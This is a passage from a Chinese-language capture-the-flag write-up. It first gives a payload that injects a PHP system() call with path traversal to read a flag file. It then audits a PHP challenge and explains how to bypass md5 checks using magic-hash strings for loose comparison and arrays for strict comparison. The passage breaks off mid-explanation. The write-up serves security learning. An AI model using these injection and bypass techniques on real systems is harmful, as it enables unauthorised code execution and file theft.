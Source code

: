 ```
?DT=system("cat ../../../flag");
```

就能得到flag



### [Week1] md5绕过欸

我们进行代码审计

```
<?php
highlight_file(__FILE__);
error_reporting(0);
require 'flag.php';

if (isset($_GET['name']) && isset($_POST['password']) && isset($_GET['name2']) && isset($_POST['password2']) ){
    $name = $_GET['name'];
    $name2 = $_GET['name2'];
    $password = $_POST['password'];
    $password2 = $_POST['password2'];
    if ($name != $password && md5($name) == md5($password)){
        if ($name2 !== $password2 && md5($name2) === md5($password2)){
            echo $flag;
        }
        else{
            echo "再看看啊，马上绕过嘞！";
        }
    }
    else {
        echo "错啦错啦";
    }

}
else {
    echo '没看到参数呐';
}
?>
```

首先绕过第一if语句，要求name!=pasword，但两个的md5值要相同（弱类型比较==）

我们想到md5后为0e开头的数的值为0

进行绕过

```
?name=QNKCDZO
password=240610708
```

第二个if语句，要求name2!=pasword2，但两个的md5值要相同（强类型比较===）

我们用数组进行绕过，数组的md5值为false
